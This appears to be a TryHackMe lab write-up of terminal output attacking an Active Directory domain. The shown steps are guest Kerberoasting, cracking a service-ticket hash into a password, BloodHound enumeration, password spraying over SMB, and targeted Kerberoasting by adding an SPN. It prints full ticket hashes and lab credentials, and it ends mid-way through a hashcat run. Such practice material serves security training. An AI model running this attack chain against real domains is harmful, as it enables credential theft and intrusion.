LDAP        10.67.128.6     389    AD               [+] thm.local\guest: 
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc ldap 10.67.128.6 -u 'guest' -p '' --kerberoasting kerberoastables.txt
LDAP        10.67.128.6     389    AD               [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.67.128.6     389    AD               [+] thm.local\guest: 
LDAP        10.67.128.6     389    AD               [*] Total of records returned 1

```

```jsx
                                                                                                                                                                                                                                      
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# cat kerberoastables.txt 
$krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local\CODY_ROY*$bea76047e3d780e4b8335d29580c5503$0506065315f8953a0680f7dcf7976143f8ab01a28a9577480e21cfe1ca5a8fd5900d08462517aeacf0690258836b38130b2406d856b770c4d98216f653dca0e6153129025c828c85e867c4e08d1f1a0a404a776daf8ba411095bb90e67101005bca23fa2bd500c1b6e6f5b20c7c0abe17a29f125b605964e5dea82b25eac005fdaf09520bbc26bc91cf7e586fe1803ac18aa1d22f56bc1c3254ccf345b8f12e420afc74d2f038fdb4ee6a67dc9c84bf82af3fc61b1fa2d87877ac3c11dc11ab5cd9ee972732de2753719de57bd105931d4461e8902ab67aebb4ec073c03e1fe71f50342ff1b9464f69008c77e7c13cbfce7f58456a594b7a6ed55419ec00cd4b7bd4ddc8359eda85882de26240ab78ff63aa0b127151bbb1bbd5c3105041637e12a3126d653126717ed015547fa484bfc740580b85841479f8db4e199bc410f1c6d685f51a280431c0e5eca6b147f693f268c0dbacf20929c443ee04a71ec939b4a1fbef48b070e3da244003f49de96d7e7a5d008d9083fd0f74966cebfa184a05639f1a70e952970fec3619ed01262b3337d5f0d3969e26b35b4511ad42b4a901c9fcb02a8e7c06bf8e5d21f68d51485feebd4d90516bb4e00f40efe056121827f3dfa96924fb5b7882302e4363847b19a96ba8edd8abbc6fa30bdf48691c737fda6dfb83f1a0fe8d6769a68adb39a47bfd35ab79dd366a7a94ff0e7fa3ff5deff70ab069ab7c2a87523a69da587198f58eec8d40ff58bc8fdaebd00b0582d1606d6e1c51616b28c87e638d6e99b98b0c835b5a4eea27443ac233817b4069f08a911585e4a2ae7ea4857051586f9b26854865fcd417ebe996ac1609b967c941ff191873700717bb4774e508b279f6ff6b0e465605ceb1169b0c8f2d3f8dc44ac18b2d60fdb1c35cfd2c416a05cf2597063add4813a618c7eb2ea35fba6df6bc0b18ed6a191de3bae569349f35b8ebfe4096ad353a449d3b81dcf54e2e0b19dd6d0d1ad77fa19ee7011179439cea6329f43185d3eca6bf52dd8f3c2bb1f2bce4b68b88276fb6f0f18d872c543b6ed54a15e8b0072a9169f08297824870e4b3abe93836edfd1f38ea5117b499a75f1df18387bd339d83b92633398f52d951d3bd9d65169c1af6051c353300b90113baa4f235e8ad19842238a4f22d56f5f8a1a525bcff1b85e306d779b80d9971f6334db1b0b222229fbcf98b19c70b4bc5d313bd957192dff376806a310852d2447e8541e154f9728153fc2d37435f7923f790dff12830473ef9a2c8efbc34c55d1a287ce10bb8945a9d812e63ada8d335ed782301a0a844d40b874bb1210b21dda720adbf877d17d43c662e36d0246e3ce6962f6282a82cae868bbc5b724ed07b901af61834b8a0cb1516ba464bac8b6249
                                                             
                                                             
                                                                                                                                                                                                                                                                                                                        
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc ldap 10.67.128.6 -u 'guest' -p '' --kerberoasting kerberoastables.txt
LDAP        10.67.128.6     389    AD               [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.67.128.6     389    AD               [+] thm.local\guest: 
LDAP        10.67.128.6     389    AD               [*] Total of records returned 1
LDAP        10.67.128.6     389    AD               [*] sAMAccountName: CODY_ROY, memberOf: CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local, pwdLastSet: 2024-05-10 10:06:07.611965, lastLogon: 2024-04-24 11:41:18.970113
LDAP        10.67.128.6     389    AD               $krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local\CODY_ROY*$dcccf335129e79ba29a11b99aca6569f$6809529dd6dd98fa808c639372fecfc60716b1039c49635a9db61f7ac674bfd1147160e9eb29d88d37b4e77d31008b34f0d2f2e05b2c569305f115b5668234103e5e0c8acf78e1c4241abcbb172a9ecbad4c6f34ef1fbc8a756eb62d33d8aadc4c3eddf84eff507536937431f76fdc2108d88dd60d321baf19dc11075b64223c7a39624338d2f66793e82c2fa5bb3d9262a95929acf7da2e1ffb30425d10fcf1c55c5009b92b9cac3da05b96f2e0f59dc58d2ed56225cd63ee1d33a9d8ec1b00db63c53e617aa15a7a7cc7407022b2cc80fdfec336c4e80e772d65ed21200d7b3aa1b4d923cf259a023caf44c3fc6af70bc66b4483fa1c2f8784cb8514bdc94daffc3092f0a3181146ab5876db9b42ec413291a84ef9e7045627be679e7a6028aa0eb44579a4b8ea76af6ebe03a4f293d8ddce75358686d4b822a6aaa4d263d7f07fd15069c906bc88dcc190729f1f098e3bc6e3ab737b9e518df450031714b54e6a67879f9a6368f5856abe9deaf7da499b37090d182655c81eb05a422d7f3b0e10dd7a2b8bf36203e33c150dbf0e423da23bce6467e984b0765b3673ab69fd6c47eb6375e5c402e4a46f2954946e733748d7a7ac88a3d205f69957f6c4fff163f25a05e266dbb61912cf96ccba399dc3b5ca4b02cdd423e68753ee5385f08e3f702bd0d0989d1a886c09da994bc57d8612053917771a09d7fe57efb6691d5a31720684f789bd9134d18cc20e6833439e57b73016c4884e6311e9aafd5825c68e2e7a22ed285bc98400d1e86dc56a771e8aed50c3af75adc318a4aa4205849dc8cdd5cf29c9fbaea829a6b3afae11bfd30129a010f54235a0d17e0f1ee585640777b8bacf0a4dea69076eed9f1c92eef97e10d0d5ea52cd59ef93bdc4b236f2924b0a7cdcfcfae43e96cb1d8cde563fabb744606c5cdb6131c3938fab2fa60840bbc94084be8cc84c7105c7c7a5dfc05b887dbae43c39f9f732ca404818c08592e28364867156d62ddcafadcaad55bf3e5b1cc5e41d647c9ecb36a4dbe0e4735800ad720fba14d6092f703639224b83bab77960bd774b8b16d8299a1ecc9892a01912bbe1cc3db49810367e0e3ff77c73395573aba3e68eceea6c6e83209c72199339e3a9cd8c1bc93ed48d6fd57fde7fe2fd7348e05bcfde04dabcc0cec449bb1bf3917cff3bdbfd0e5818c86a2690eca455a09bb97dc86a16b4fec594e184aec75630e58dc3e3b83933ee446cd79185f1e83a22e868f24bdb7b0331abf0c61a637d09ce9ddd9fcb2dae0641cc4de0cfa5c3d258dd1f05d7523b2aef4b192ecd2743ccbd68bb825ca16f071e338603a547dbdbca577f55187e6a288ad41050abbe73681089ecec755f13d53e0d5344c51fdab35ece5db06a84c422325359     
                                                                                                    
```

```jsx
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Remaining 1 password hash
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
MKO)mko0         (?)     
1g 0:00:00:00 DONE (2026-09-13 21:19) 1.639g/s 1159Kp/s 1159Kc/s 1159KC/s MOSSIMO..LEANN1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                   
```

```jsx
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# bloodhound-ce-python -u 'cody_roy@thm.local' -p 'MKO)mko0' --zip -dc ad.thm.local -c All -d thm.local -ns 10.67.128.6 --dns-timeout 10 --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: thm.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 490 users
INFO: Found 53 groups
INFO: Found 4 gpos
INFO: Found 216 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ad.thm.local
INFO: Done in 00M 19S
INFO: Compressing output into 20260913212241_bloodhound.zip

```

```jsx
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# python /home/yoinkas/HACKER/TOOLS/impacket/examples/GetUserSPNs.py -request -dc-ip ad.thm.local thm.local/cody_roy:'MKO)mko0' 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName     Name               MemberOf                                            PasswordLastSet             LastLogon                   Delegation 
-----------------------  -----------------  --------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/server.thm.local    CHRISTIAN_SANFORD  CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local  2024-05-10 09:59:37.018116  2024-04-22 10:40:30.076386             
HTTP/server.example.com  CHRISTIAN_SANFORD  CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local  2024-05-10 09:59:37.018116  2024-04-22 10:40:30.076386             
HTTP/server.secure.com   CODY_ROY           CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local  2024-05-10 10:06:07.611965  2024-04-24 11:41:18.970113             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*CHRISTIAN_SANFORD$THM.LOCAL$thm.local/CHRISTIAN_SANFORD*$cefefc59a2ee6fe4641f53c990a27b1d$29817d6ee942d8b67f075d83b610846f21984622478ebe3cc92f0885d0a13be216bfcaf6b806e0bfc1fa478ad5cbc639815ac03d8366d9b42816de0d9b7306d6723642a318c37170fc5d274aae93689724eddae47417a4d297912330bef08e757e5b7899d6474b3bf02bce80157abc3f35783b4198bb5123a887ba0d85960050520a3d2f39b65ecf17a298e4438b85d9fe858378157339cf9212535e2280f6443c05d87cf1c14942f050585267b5eaec8095d5b7cd9d293069efe018239efdbad49b7444cbf61ccd96f3dbd80753b3ef74d7f584b9f54e62d9cec0a5d61591e9cbd14ff3458952ca4b8e3e6843356a75e313ca86df2a6119eddf0632f938234b5c934b45b82331506ba7ca88d9373f3461bfbc7f2237c452a0d51272ee48fe84d27bb2ccd2ba54ffa91cd808659d1600e1f03948f8e3d6a43dc09270dbbf7066d7686063adac70055cad61112a82da8ac3bb199b9a8a1af1c7c61f1fec26bd3c0eee2956e7097898cbdf240a0fd684a1a0d586040388c10b3cdd5d06ef9090e4493fc5960cf3aa10fdca5cda95d42cfb6ecf6520dce1ef8bdb02a43c15a3dcefcdcc36bb14134aa4986780fe66e7a7eaf5adef970ebf1886226c9d928a7e468ac90417644df071a8a8d387d7a1f70ccf3ae03a0ebb5d143bb8dd130e3707ae83e5c41c85175bb8e566a65c3c1e6d0567078e990d01bd2958ba7798f6e109881cd6d7aa013319b656bfcbae2349d43c49b01632fe22673446cb0e66206cbd9169c924e82971a6b9a7f033e9f02dde7e3da38cd71e63c38587293e0684f5622275a11612a028b19965a7b6111f77ebb992aa2cca3ba549a4ef41de70dd6fb3cb509483d484a8fba637a3f3afc50847e11fd0bc4ab49b21d1d9aafc6c4ff9d0e11313ecb53211d785c8a770483c72acd8febc1c28690914207a99e1776e23ff4fc924a94d94cbcc60689e6728f5a2a934099179d1895e8fe37efeec6843a678ee960bfd3ab21f49e5a45643c14aded5993b40dca8de8f22d12e9e513bf06535620e6231e67149e0860f7f39b305258d381dad0a1fd01f0ac69839d5e775791de4e7971bfe7dbc2af69d59c9c19413cc9c0241b4d2579a3d8fdf45d529ba96a71f25743f7212ac32929efe38ad6c65618716fb1397bee67b3135b9c0560875c2e0de03c41c0cc31161007f3ff376ce02b2acdc6ce982fd4d460199f854f7ed86fe6a7c4b4e67b50d31a6c4cafe804ba6e9c656a13eceae8a2f8e841d92487b524c9c399a1da120dff6f9901a1a62f6eeb59150fd6b9252564e97a1faf9b7cb24fa10f99b0b0f8e18fab4bf7d6cd91d58354db3bcb468c7a04005756dce44c7d8bc0fb8e517f8438805c765d3e732b7c0731ba2ba7ff579fdf94c2afafd25ff417086069a89976e30036da02c9824876932d69e28cae655cdbd31da97c32be0bf0c465bf562978546fd4641f7
$krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local/CODY_ROY*$d33d955d826944459739db0e0b36068e$5c724d73ba614a27454ebd4d77dcfc63147bc188e1b9902dccc0f554ddb4cb59708332ae5c81b502bebed3be950ac5d7ea1b8f1bc8be584afb74e5e180caf2f50b130a2ad5b5e856f045886637522d38ea7151efc0003705522478ac887413ef92b0e77eac7ba39ece3d2b7a8626c85012311e277c27516854ab0963e60da1f1cb3dd32fccd9cf268b3d9b8f63e49b0c4a90b70481014e57d2e373cf3fc6adb5529930c6a001200972c70d7eb0105ee390a22b7880d1314b89d07a82fa1f32542863fb014ed23a040d73e9d11184327b94c33f7f3dec898af45df5f410802c646bd93ed50d55bc957d812348163f868042979eea530e1c0f18c6d9deca78ab513942d2107b2586d33f44456eaf8fe4c5de67645de708ce01ad65ba11baa3dfff66032c3e520ad2a7accf5a5f1aa1cb2da8b0057c06dc098bb7fd1a982c6bf7ff496b4ab83f60a7216b715ec08b28c66eb07ca2493329ffcf1ce889da1d2f65eea791a7a611ceacc76b0e70ff207783965c986d6f9a9061babd108590fe756f18dd37f8a946fc34456dc3c164f68d8d4c3759df9dbf0d216a1168fa540a3a5bce39d5f3012097a66224b397b807e40f4d246c591b01b0b45835e6fba43700343ae6ca7e9fdfca77c16aa668139cdb2f8bd2a1b913a5c7a70a9499ebca30c6538abd7b2c913f7b1a19d96a57eb6bfb54a7c0dac73664676b4bbb4806f979e5f7a09a42bcb9c044d4bcca819eceb53833a2fe7e88c01fb736d72c13c10c7f198eb98a43bcfe0e264f0b3f440e6cf11df4695e5f5dd5222812415cc09ec7741d0130e0d36dcfd1bd6dd7633d4c65266cec06cf2cb86ed015fe29684bb486b3a837dd43ea418687bdc70db3d408de72fef849464819cb1053ee2386f63cf2f636dc1aca9d8628101271b7ca995b45ca3f663ca6e76cd4b161ca2055cf04d3559ffd8cdacdbb6170da6e43750781402f3bbc533b2de42f01c01851d606f1c4f2c5b35da884d0f31b736d220081da7f6127f438fda815b5877cfea73e2430d27b3b9d41480094b2e76de81363d4e19b5ad6f657229815f4a118406801b80e98fd9909f68624a830116dd0aec9c454afb9d195a11cb6a3abe84120c5340196a519a48cd8d69ead1f858b381f4e0f7867f653f3cd76cfb9b86fd7d349e2628a6af9d20142041b40cce66075daffffc28c71a0833c37ab5945f9e3e72697db8a38b44f2f18cdb6aa8a65ccf515be41bbf531b0fe83ef536cc500533a72c38c791ee74963ed20f49cacc35de25cacd60e7bf21e7be8d88fce429d2e8a9da1ccd3e23b9dca2d4bff0ec36e6faca056809df0409a0faee069e8f39ff0d7e22f263c7228f112336cbf30c1721cc80f4bb1fb45a9a902d3fcf1befd9d0c2ef226f36374f99ca25f4c4b67e9b36cd1ad155a1e9aec0366ed6f90650726ae1e42ccb8db80cc5e316f41982f0dc4d383de8ae7

```

```jsx
                                                                                                                                                                                                                                          
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc ldap ad.thm.local -u 'cody_roy' -p 'MKO)mko0' --users
LDAP        10.66.143.249   389    AD               [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.66.143.249   389    AD               [+] thm.local\cody_roy:MKO)mko0 
LDAP        10.66.143.249   389    AD               [*] Enumerated 489 domain users: thm.local
LDAP        10.66.143.249   389    AD               -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.66.143.249   389    AD               Administrator                 2024-05-10 10:09:56 0        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               Guest                         2024-05-10 13:48:41 0        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               krbtgt                        2024-05-10 13:01:07 0        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               SHANA_FITZGERALD              2024-05-10 13:09:45 1                                                                    
LDAP        10.66.143.249   389    AD               CAREY_FIELDS                  2024-05-10 13:09:45 1                                                                    
LDAP        10.66.143.249   389    AD               DWAYNE_NGUYEN                 2024-05-10 13:09:45 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               BRANDON_PITTMAN               2024-05-10 13:09:45 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               BRET_DONALDSON                2024-05-10 13:09:45 1                                                                    
LDAP        10.66.143.249   389    AD               VAUGHN_MARTIN                 2024-05-10 13:09:45 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               DICK_REEVES                   2024-05-10 13:09:45 1                                                                    
LDAP        10.66.143.249   389    AD               EVELYN_NEWMAN                 2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               SHERI_DYER                    2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               NUMBERS_BARRETT               2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               SUSANA_LOWERY                 2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               MIKE_TODD                     2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               JOSEF_MONROE                  2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               DAWN_DAVID                    2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               VIVIAN_VELAZQUEZ              2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               WESLEY_FULLER                 2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               MARISOL_LANG                  2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               DIONNE_MCCOY                  2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               NOEL_BOOTH                    2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               TAMRA_BULLOCK                 2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               ROLAND_COLE                   2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               KATHY_WYNN                    2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               LORENA_BENSON                 2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               FELIX_CHARLES                 2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               ROBERTO_MORIN                 2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               VICTOR_WALTERS                2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               AL_HAMPTON                    2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               RAYMUNDO_HOLLOWAY             2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               FRANKIE_ASHLEY                2024-05-10 13:09:46 1                                                                    
LDAP        10.66.143.249   389    AD               DUANE_DRAKE                   2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               CODY_ROY                      2024-05-10 10:06:07 0                                                                    
LDAP        10.66.143.249   389    AD               ANDERSON_CARDENAS             2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               ARIEL_SYKES                   2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               DION_SANTOS                   2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               LAVERN_GOODWIN                2024-05-10 13:09:46 1        Tier 1 User                                                 
LDAP        10.66.143.249   389    AD               BRENTON_HENRY                 2024-05-10 13:09:46 1                  
<SNIP>
```

```jsx
                                                                                                                                                                                                       
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc ldap ad.thm.local -u 'cody_roy' -p 'MKO)mko0' --users | awk '{print $5}' | grep -v "Username" > names.txt
                                                                                                                  
```

```jsx
                                                                                                                                                                                                                             
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc smb ad.thm.local -u names.txt -p 'MKO)mko0' --continue-on-success 
SMB         10.66.143.249   445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.66.143.249   445    AD               [+] thm.local\[*]:MKO)mko0 (Guest)
SMB         10.66.143.249   445    AD               [+] thm.local\[+]:MKO)mko0 (Guest)
SMB         10.66.143.249   445    AD               [+] thm.local\[*]:MKO)mko0 (Guest)
SMB         10.66.143.249   445    AD               [-] thm.local\Administrator:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\Guest:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\krbtgt:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\SHANA_FITZGERALD:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\CAREY_FIELDS:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\DWAYNE_NGUYEN:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\BRANDON_PITTMAN:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\BRET_DONALDSON:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\VAUGHN_MARTIN:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\DICK_REEVES:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\EVELYN_NEWMAN:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\SHERI_DYER:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\NUMBERS_BARRETT:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\SUS

45    AD               [-] thm.local\RAYMUNDO_HOLLOWAY:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\FRANKIE_ASHLEY:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\DUANE_DRAKE:MKO)mko0 STATUS_LOGON_FAILURE 
***SMB         10.66.143.249   445    AD               [+] thm.local\CODY_ROY:MKO)mko0*** 
SMB         10.66.143.249   445    AD               [-] thm.local\ANDERSON_CARDENAS:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\ARIEL_SYKES:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\DION_SANTOS:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD               [-] thm.local\LAVE

 AD               [-] thm.local\SHELDON_RICHARDSON:MKO)mko0 STATUS_LOGON_FAILURE 
***SMB         10.66.143.249   445    AD               [+] thm.local\ZACHARY_HUNT:MKO)mko0*** 
SMB         10.66.143.249   445    AD               [-] thm.local\MERLIN_HARPER:MKO)mko0 STATUS_LOGON_FAILURE 
SMB         10.66.143.249   445    AD        
```

```jsx
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas/HACKER/TOOLS/targetedKerberoast]
└─# python3 targetedKerberoast.py -v -d 'thm.local' -u 'ZACHARY_HUNT' -p 'MKO)mko0' --dc-ip 10.65.153.33 --request-user JERRI_LANCASTER
[*] Starting kerberoast attacks
[*] Attacking user (JERRI_LANCASTER)
[VERBOSE] SPN added successfully for (JERRI_LANCASTER)
[+] Printing hash for (JERRI_LANCASTER)
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$64ca366c5f16a5c6726f1d82f058ba1e$96b440936c0cf3227c112a3321ad52bbed7257b71556dad30fc5ffbb6d5fcdad6bb3de67cd337a03a4527bc797644bc5087e0d879cab9ab940c0ca5d230275fc19b7f3ebb8694d9bd78fb3b6c8bd64ac6e49f6ab49def61b66e988bf65e6d45d4a3df0289a4baa8eefd0c09a35b0b3a97e35f7a8432c56e09839eb5dc59b5395070f217a3bbbe0bb144d9dea1aacb74cfeb2fa52c4607bfe2153334abccee928a1b76ce1b08fe4f997c67c03911bb42b8e482a496553a59ea38c8f400d753893287c0980ed32a455f6e301bdc5efaa57de904e99c259acc1cffa87b03da0dd0ec1c7b24052d1a6936041a14505053a9bffb27ddb0812e3ae70ee7caeedd1d7d60c439b4971cfd3222b7c4c03c1ca75f600356b2826d264fb4364928274710c23e38693c4224409690ad7f3e0e60041443ca2f479a45cfd5d5c3718fd6e1e7858c7ef7f5fbd33d1668353247fe0c5e82e840bdc4d7b00255d74dfa0a04469c0eeeeb28d551a52da1bef7796538aa5cccecddd1cbaadaf1acf96ec90d1a78d09dc6473f5681f16b0142874378bfc9d9b5cb8653d08c2cc4a519585ead4dac922d32ab81c14682657fec2b31dde34dc1fba43e1db73032e05a9b71ffe03b493e2c620fd68be2ada29bc0d082ee08c2e267e60017db0bbb74c2b79540aacd5bde8fdb5ac94a1b8c3ae908761b1b65ffe6c785ce6c096a1972b9efcceab7bc3ab3ba3af9be04eeaec30260c2910d796ca7af656915af9ecaa47eadf20a7843eb75dcc8e94bd0df7833b5c1e604b461aa3bcf3a760139e9462bd9b081bde55ffa9a321f7da728af2b9926445c8f897dede6eff78c5ef3d65cf7e019eb2b93d16c80bf959552bbd48fb6ad213853bb42579253a21dff072f6d121d0d6ebb564fd453d3e95a3b207e8abd8bd0e4afe06cf6f8ffcf7a60dadf1e87c5340078ac72f11c6663cd4f90cd1ae9322ff68df497118dbfbf00f9beaee475fc8a359ff4aa63ed3fcfef30b2fbc7870de0f83db84d1a715164c20f31db4bfd5daa4070fb23bbed5a01a4f5eee2829c379da94c034fdfeac33afc4ab3d3560ed72d9ae3e80d1063bd4bc6c5e36da2829446b3c75170796ab95eccc917d4a52e2f620eef445bd1c4bb9bc9240a4d502f33a5c4ad7712ea09ff107e1e885b01adaeebb0e88f41174cf4356f195277c6c7600210ef7e298d8f8cb22563cb76e0aec36480f155797ad7eb56c252df55ee33d17ed6a3e9fabe264f4dda45f9c25e0bbf0777df5a185c6868813dcfdb8d153e30351899b6cbd878bf3b432ca3a48af40ba413128257d17339cfe691e1ae79dcc1d69c4a21c2afc96d91d24f238a601420ff90a86aa66e579e859166e7e0c8d99702c2ef43cecd062d5b7d221eac12f16453f0918a0150f17b2b5b88434c36d788927dbde4c48f110bac2532e5ae39e08a2a4878f42945cfe21a238ea799a3d7eaac0b4cb29f3268a0fac92f0ab535cc30e5b2d486b9b8b83ad8a78100ccb1e8ab84f2cf8f39f4502d48263621d2220
[VERBOSE] SPN removed successfully for (JERRI_LANCASTER)

```




```jsx
                                                                                                                                                                                                                             
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# hashcat -m 13100 -a 0 jerri-lancaster /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-AMD Ryzen 7 5800X 8-Core Processor, 3893/7787 MB (3893 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (6902 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921544
* Keyspace..: 14344387

